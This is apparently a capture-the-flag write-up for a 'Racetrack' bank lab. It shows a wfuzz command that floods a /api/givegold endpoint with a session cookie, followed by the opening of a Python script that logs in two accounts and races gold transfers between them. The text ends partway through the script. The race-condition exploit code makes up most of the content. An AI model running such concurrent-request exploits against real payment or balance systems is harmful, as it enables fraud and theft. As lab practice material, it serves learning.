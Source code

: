 <br>
<h3>Racetrack</h3>

<img width="719" height="169" alt="image" src="https://github.com/user-attachments/assets/cc13cf57-ae97-436a-b27f-6c7df7303457" />

<br>
<h3> <code>B</code> giving gold to <code>A</code></h3>

```bash
:~/RacetrackBank# wfuzz -w file.txt -u http://xx.xxx.xx.xxx/api/givegold -H "Content-Type: application/x-www-form-urlencoded" -b "connect.sid=s%3AjJJcJn8bwRUTYagaTGb2IIgQhu-la_8o.4Of9dwlKdtVTJt%2FGGNx6CQvrwWenjbZBOp6SB8a46Fk" -d "user=A&amount=FUZZ"
 ```

<img width="1054" height="182" alt="image" src="https://github.com/user-attachments/assets/fab14992-f97b-4878-ab57-b3a31ff27e95" />

<img width="950" height="388" alt="image" src="https://github.com/user-attachments/assets/5f51bee0-9bf3-4896-a25f-0cdbb4e0bab8" />


<p>

- Got enough <code>gold</code> with <strong>Baris Dincer</strong>´s script</p>

<br>
<h3><code>script</code></h3>

<p><em>script.py</em></p>

```bash
import grequests
import requests
from bs4 import BeautifulSoup

ip_address = "xx.xxx.xx.xxx"

user_main = "B"
pass_main = "password"
user_add =  "A"
pass_add =  "password"

def user_gold_and_cookie(username, password):
    payload = {
        'username': username,
        'password': password
    }
    with requests.Session() as session:
        response = session.post(f'http://{ip_address}/api/login', data=payload)
        soup = BeautifulSoup(response.text, "html.parser")
        gold_amount = 0
        for tag in soup.find_all('a'):
            if "Gold:" in tag.text:
                gold_amount = int(tag.text.split(":", 1)[1].strip())
                cookie_dict = session.cookies.get_dict()
        return cookie_dict['connect.sid'], gold_amount

def send_gold(user, cookie, amount):
    url = f'http://{ip_address}/api/givegold'
    headers = {
        "Host": ip_address,
        "Referer": f'http://{ip_address}/giving.html',
        "Content-Type": "application/x-www-form-urlencoded",
        "Connection": "close",
        "Cookie": f"connect.sid={cookie}",
        "Upgrade-Insecure-Requests": "1"
    }
    cookies = {
        "connect.sid": cookie
```
